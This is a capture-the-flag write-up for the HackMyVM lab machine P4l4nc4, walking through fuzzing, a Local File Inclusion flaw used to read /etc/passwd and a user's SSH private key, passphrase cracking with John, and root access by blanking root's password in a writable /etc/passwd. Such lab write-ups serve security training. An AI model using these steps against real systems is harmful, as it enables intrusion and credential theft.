

# HackMyVM: P4l4nc4 (HMV) - Writeup

**Difficulty:** Easy/Medium
**Skills:** Custom wordlist generation (cewl + leetspeak), directory fuzzing, LFI, SSH key extraction via LFI, John the Ripper, `/etc/passwd` write-based privesc

## Recon

```bash
nmap -sC -sV 192.168.0.103
```
Two open ports: `22/tcp` (OpenSSH 9.2p1) and `80/tcp` (Apache 2.4.62, default Debian page).

## Web Enumeration

- Checked `/robots.txt` and used **cewl** against its content to build a custom wordlist.
  ```bash
  cewl http://machine-ip/robots.txt -w dict.txt
  ```
- The machine hints that usernames follow **1337-speak** conventions, so a custom bash script was used to generate leetspeak variants of every wordlist entry (a→4, e→3, i→1, l→1, o→0, s→5, t→7) and merge them with the originals.
  ```bash
  #!/bin/bash
  
  # Verify that a file was provided as an argument.
  if [ "$#" -ne 1 ]; then
      echo "Usage: $0 dic.txt"
      exit 1
  fi
  
  # Input/output files
  file_input="$1"
  file_output="1337_format.txt"
  
  # Transformations in basic 1337 format using sed tool
  sed -e 's/a/4/g' \
      -e 's/e/3/g' \
      -e 's/i/1/g' \
      -e 's/l/1/g' \
      -e 's/o/0/g' \
      -e 's/s/5/g' \
      -e 's/t/7/g' \
      "$file_input" > temp_1337.txt
  
    # Merge original and transformed words, removing duplicates and unnecessary capital letters
    cat "$file_input" temp_1337.txt | tr '[:upper:]' '[:lower:]' | sort | uniq > "$file_output"
  
    # Clean temp file
    rm temp_1337.txt
  
    # Show success message
    echo "saved to : $file_output"
  ```
- Ran **Gobuster** with the custom wordlist and found `/n3gr4/`.
- The directory was empty on its own, so Gobuster was run again inside `/n3gr4/`, revealing `/n3gr4/m414nj3.php`.

## LFI Discovery & Exploitation

- Fuzzed parameters on `m414nj3.php` with **ffuf** and found a `page` parameter vulnerable to **Local File Inclusion**.
  ```bash
    ffuf -u http://machine-ip/n3gr4/m414nj3.php?FUZZ=test -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -mc 200
  ```
- Used it to read `/etc/passwd`, revealing the user **`p4l4nc4`**.
  
- Used the same LFI to pull the user's **SSH private key**.
  
- The key was passphrase-protected — extracted the hash with `ssh2john` and cracked it with **John the Ripper**.
  ```bash
    ssh2john id_rsa > hash
    john hash --wordlist=rockyou.txt
  ```
- Logged in via SSH as `p4l4nc4` using the cracked key. Grabbed `user.txt`.
  ```bash
    ssh p4l4nc4@machine-ip -i id_rsa
  ```

## Privilege Escalation

- Found the current user had **read/write permissions on `/etc/passwd`**.
- Edited the file to remove the `x` in root's password field, effectively giving root **no password**.
- Ran `su root` with no password required → instant root.

## Key Takeaways

- Predictable username/wordlist conventions (leetspeak) are worth automating a transform for during enumeration.
- Parameter fuzzing (`ffuf`) on custom PHP endpoints can uncover LFI even when the base page looks empty.
- LFI isn't just for source disclosure — it can be used to exfiltrate SSH keys directly.
- World-writable `/etc/passwd` is a critical misconfiguration — always check file permissions on core system files during 

> 📖 **Original Medium Article:**
> https://medium.com/@mrwhitecap/hackmyvm-p4l4nc4-81f7f1342682


